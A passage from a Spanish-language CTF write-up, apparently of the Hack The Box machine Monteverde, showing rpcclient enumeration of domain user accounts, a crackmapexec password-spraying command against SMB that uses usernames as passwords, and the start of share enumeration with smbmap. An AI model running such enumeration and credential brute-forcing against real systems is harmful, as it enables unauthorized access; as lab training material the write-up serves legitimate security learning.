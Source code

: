 Obtenemos una lista de usuarios con descripciones:

```bash
rpcclient $> querydispinfo
index: 0xfb6 RID: 0x450 acb: 0x00000210 Account: AAD_987d7f2f57d2       Name: AAD_987d7f2f57d2  Desc: Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.
index: 0xfd0 RID: 0xa35 acb: 0x00000210 Account: dgalanos       Name: Dimitris Galanos  Desc: (null)
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0xfc3 RID: 0x641 acb: 0x00000210 Account: mhope  Name: Mike Hope Desc: (null)
index: 0xfd1 RID: 0xa36 acb: 0x00000210 Account: roleary        Name: Ray O'Leary       Desc: (null)
index: 0xfc5 RID: 0xa2a acb: 0x00000210 Account: SABatchJobs    Name: SABatchJobs       Desc: (null)
index: 0xfd2 RID: 0xa37 acb: 0x00000210 Account: smorgan        Name: Sally Morgan      Desc: (null)
index: 0xfc6 RID: 0xa2b acb: 0x00000210 Account: svc-ata        Name: svc-ata   Desc: (null)
index: 0xfc7 RID: 0xa2c acb: 0x00000210 Account: svc-bexec      Name: svc-bexec Desc: (null)
index: 0xfc8 RID: 0xa2d acb: 0x00000210 Account: svc-netapp     Name: svc-netapp        Desc: (null)
```

## Fuerza bruta de credenciales

Creé una lista de usuarios y probé contraseñas con crackmapexec:

```bash
crackmapexec smb 10.10.10.172 -u users -p users --continue-on-success
```

## Enumeración de recursos compartidos

Smbmap muestra los recursos compartidos disponibles:

<img src="/secciones/posts/imagenes/monteverde/reccomp1.webp" alt="Recursos compartidos SMB" width="500">

